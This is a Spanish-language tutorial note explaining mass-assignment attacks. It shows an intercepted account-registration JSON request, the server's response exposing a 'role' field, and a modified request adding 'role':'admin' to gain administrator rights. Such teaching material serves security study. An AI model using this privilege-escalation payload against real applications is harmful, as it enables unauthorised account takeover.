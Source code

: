 # ¿ Que es el **ataque de asignación masiva** ? 

El **ataque de asignación masiva** o **Mass-Assignment Attack** se basa en la manipulación de parámetros de entrada de una solicitud HTTP para crear o modificar campos en un objeto de modelo de datos en la aplicación web. En lugar de agregar nuevos parámetros, los atacantes intentan explotar la funcionalidad de los parámetros existentes para modificar campos que no deberían ser accesibles para el usuario. 

Por ejemplo en una aplicación web de gestión de usuarios, un formulario de registro puede tener campos para el nombre usuario, correo electrónico y contraseña. Sin embargo, si la acpliación utiliza una biblioteca o marco que permite la asignación masiva de parámetros, el atacante podría manipular la solicitud HTTP para agregar un parámetro adicional, como el nivel de privilegio del usuario. De esta manera, el atacante podría registrarse como un usuario con privilegios elevados, simplemente agregando un parámetro adicional a la solicitud HTTP.

----

# Explotación 

Para explotar esta vulnerabilidad, una vez más, pueden existir muchos casos, ya sea por intuición, por puro intento, entre otras, por ejemplo....

Tenemos una página web en la cual existe una sección de "create account" en donde interceptando la petición con [[Burpsuite]] vemos que se tramita una estructura tal que asi: 

```json
{
	"email":"dobliuw2@dobliuw.com",
	 "password":"dobliuw123",
	 "passwordRepeat":"dobliuw123",
	 "securityQuestion":{
		 "id":2,
		 "question":"Mother's maiden name?",
		 "createdAt":"2023-05-16T18:46:09.595Z",
		 "updatedAt":"2023-05-16T18:46:09.595Z"
	 },
	 "securityAnswer":"dobliuw"
 }
```

Y a la hora de crear el usuario, es decir, dejar tramitar esta petición, vemos una respuesta tal que así: 

```json

{
	"status":"success",
	"data":{
		"username":"",
		"deluxeToken":"",
		"lastLoginIp":"0.0.0.0",
		"profileImage":"/assets/public/images/uploads/defaultAdmin.png",
		"isActive":true,
		"id":22,
		"email":"dobliuw2@dobliuw.com",
		"role":"user",
		"updatedAt":"2023-05-16T18:50:27.165Z",
		"createdAt":"2023-05-16T18:50:27.165Z",
		"deletedAt":null
	}
}
```

Por lo que al ver todos los parámetros de un usuario, podriamos probar si la web es vulnerable a **Mass-Assignment Attack** intentando asignar un rol, el cual podría ser "admin" en la creación del usuario, modificando el JSON original, agregando el campo: 

```json
{
	....,
	"role":"admin",
	....
}
```

